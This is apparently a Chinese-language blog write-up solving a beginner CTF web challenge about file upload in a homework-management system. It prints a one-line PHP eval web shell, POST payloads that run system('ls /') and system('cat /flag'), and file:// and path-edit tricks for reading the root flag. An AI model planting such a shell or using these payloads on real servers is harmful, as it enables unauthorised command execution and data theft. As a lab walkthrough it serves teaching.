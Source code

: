 ```yaml
---
title: NSSCTF入门题单[LitCTF 2023]WriteUP-NSSCTF-3867
date: 2024-11-25
tags:
 - CTF
 - NSSCTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true








---
```


<Boxx/>

[LitCTF 2023]这套题是Web方向入门题单，这是我的第17题

[[toc]]

- 题单【[传送门](https://www.nssctf.cn/problem/3861)】
- 主办方WriteUP【[传送门](https://dqgom7v7dl.feishu.cn/docx/WdHvd735koqwJxxulA2cv4K4nKf)】
- 主办方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1sm4y187EK)】

| 题目编号 | 题目名称     | 题目方向 | 难度 |
| -------- | ------------ | -------- | ---- |
| 3867     | 作业管理系统 | Web      | 1    |

<!-- more -->

# 题目17： 作业管理系统

### 题目描述：交作业！！但是哪里不对？

### 考点1：文件上传

首先，我们在做Web题的时候，要记得先审查元素看一下源代码，说不定会有惊喜呢？这里提示我们用户名和密码都是admin

![image-20241125202037150](/img/essay/image-20241125202037150.png)

### 解法1：文件上传

进入页面后可以看到很显眼的“文件上传”选项，我们直接点击上传文件

![image-20241125202224025](/img/essay/image-20241125202224025.png)

我们编写一个简单的php木马上传到服务器中。

```php
<?php @eval($_POST[1]); ?>
```

![image-20241125202749149](/img/essay/image-20241125202749149.png)

我们点击上传以后，返回主页，看到目录上方的统计数量变成了“1 个文件夹 2 个文件”，我们知道是我们上传成功了。我们已经可以在浏览器去访问1.php的文件了。

```
http://node4.anna.nssctf.cn:28599/1.php
```

我们进入页面后，打开F12开发者工具，选择HackBar工具，发送一个POST请求，内容为

```php
# 1是我们在木马里起的名字
1=system("ls /");
```

![image-20241125204853534](/img/essay/image-20241125204853534.png)

通过上边的方式，我们可以直接在运行system语句来执行服务器命令，这样，我们就可以直接用cat来展示flag了

```
1=system("cat /flag");
```

![image-20241125205641965](/img/essay/image-20241125205641965.png)

### 解法2：远程下载



我们在打开页面后，除了有上传文件，还有一个下载文件的地方。此题目如果上传有限制的话，就可以使用这个下载的功能，用远程下载去下载木马，然后编辑保存即可。

![image-20241125202224025](/img/essay/image-20241125202224025.png)

**重点：**基于file协议，将根目录文件直接下载到当前目录

**注：**页面访问的是当前目录，也就是	./	这个目录，而flag是在	/	根目录下

![image-20241125210738158](/img/essay/image-20241125210738158.png)

点击下载后，我们选择编辑文件，即可查看该flag。

![image-20241125210826322](/img/essay/image-20241125210826322.png)

也可以在链接后直接加个flag，通过地址栏的方式直接下载flag的文件。

```
http://node4.anna.nssctf.cn:28599/flag
```

下载到本地后打开即可看到flag

### 解法3：直接编辑读取

如果没有使用	**file:///**	这个协议，我们可以在下载文件并编辑的时候，直接修改地址栏的内容

```
http://node4.anna.nssctf.cn:28599/index.php?op=edit&fename=flag&folder=/
```

通过这段地址，我们就可以直接编辑根目录下的flag文件，也就可以直观的展示到页面中了。

### 彩蛋：

在远程下载中，提供了一个预输入，访问该地址，即可得到彩蛋。

![d88d6fca-efe5-4034-ba9e-0c677ad9f5e4](/img/essay/d88d6fca-efe5-4034-ba9e-0c677ad9f5e4.png)

该地址是一个github地址，我们访问这个地址

![f11f99a0-69ed-4aae-9c63-29bd4446c508](/img/essay/f11f99a0-69ed-4aae-9c63-29bd4446c508.png)

### 注：

在做这道题的时候，没注意到时间限制，结果到时间了，大家一定要注意时间呀